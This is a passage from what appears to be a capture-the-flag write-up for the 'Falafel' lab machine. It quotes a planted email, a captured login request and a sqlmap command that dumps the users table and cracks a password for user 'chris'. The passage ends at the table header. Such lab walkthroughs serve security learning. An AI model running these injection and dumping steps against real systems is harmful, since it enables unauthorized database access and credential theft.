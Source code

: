 
Cyberlaw.txt sticks out here, checking it reveals some relevant info:

```
From: Falafel Network Admin (admin@falafel.htb)
Subject: URGENT!! MALICIOUS SITE TAKE OVER!
Date: November 25, 2017 3:30:58 PM PDT
To: lawyers@falafel.htb, devs@falafel.htb
Delivery-Date: Tue, 25 Nov 2017 15:31:01 -0700
Mime-Version: 1.0
X-Spam-Status: score=3.7 tests=DNS_FROM_RFC_POST, HTML_00_10, HTML_MESSAGE, HTML_SHORT_LENGTH version=3.1.7
X-Spam-Level: ***

A user named "chris" has informed me that he could log into MY account without knowing the password,
then take FULL CONTROL of the website using the image upload feature.
We got a cyber protection on the login form, and a senior php developer worked on filtering the URL of the upload,
so I have no idea how he did it.

Dear lawyers, please handle him. I believe Cyberlaw is on our side.
Dear develpors, fix this broken site ASAP.

	~admin
```
So we see that chris can login as admin with no password, even with the "cyber protections". So let's look at the two parameters on the login form next for bypasses and/or sql injection. We can save the request in burp and feed it to sqlmap:
```php
POST /login.php HTTP/1.1
Host: 10.10.10.73
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://10.10.10.73/login.php
Cookie: PHPSESSID=cpuuab8qt9v2kptq906qpf8463
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

username=chris&password=blah
```

```bash
root@sushi:~# sqlmap -r chris.req --level 5 --risk 3 --string "Wrong identification" -p username --batch --dump --threads 10

--snip--

[18:14:18] [INFO] starting dictionary-based cracking (md5_generic_passwd)                             
[18:14:18] [INFO] starting 2 processes             
[18:14:25] [INFO] cracked password 'juggling' for user 'chris'                                                              [18:14:31] [INFO] postprocessing table dump    
Database: falafel                                  
Table: users                                       
[2 entries]                                        
+----+--------+----------+---------------------------------------------+                              
| ID | role   | username | password                                    |                              
+----+--------+----------+---------------------------------------------+                              
```
